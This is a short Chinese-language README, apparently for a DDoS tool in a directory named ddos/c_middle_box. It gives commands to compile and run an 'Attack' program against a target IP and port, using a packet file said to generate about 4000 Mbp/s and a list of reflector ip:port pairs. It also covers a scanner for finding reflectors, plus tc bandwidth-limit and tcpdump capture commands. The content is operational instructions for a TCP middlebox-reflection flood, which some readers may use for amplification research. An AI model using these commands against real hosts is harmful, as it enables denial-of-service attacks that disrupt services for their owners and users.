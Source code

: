 ### 目录
    cd ddos/c_middle_box

### Attack
    gcc tcp.c -o tcp -pthread && ./tcp ip port packet.txt 2 20

- packet.txt 初始目录 约4000mbp/s

- 反射文件 为 ip:port


### 扫描
        gcc tcpscan.c -o tcpscan && ./tcpscan src_ip src_port packet.txt



### 用 tc 设置出口限速 10Mbps
        sudo tc qdisc add dev ens160 root tbf rate 10mbit burst 32kbit latency 400ms

### 如果之前设置过 tc，需要先清除：
        sudo tc qdisc del dev ens160 root


### 宁外一台服务器抓包
        nohup tcpdump -t -nn tcp src port 80 and dst port 8000 and 'tcp[((tcp[12:1] & 0xf0) >> 2):4] != 0' -q > tcp.txt &

### 查看
        tail -f tcp.txt
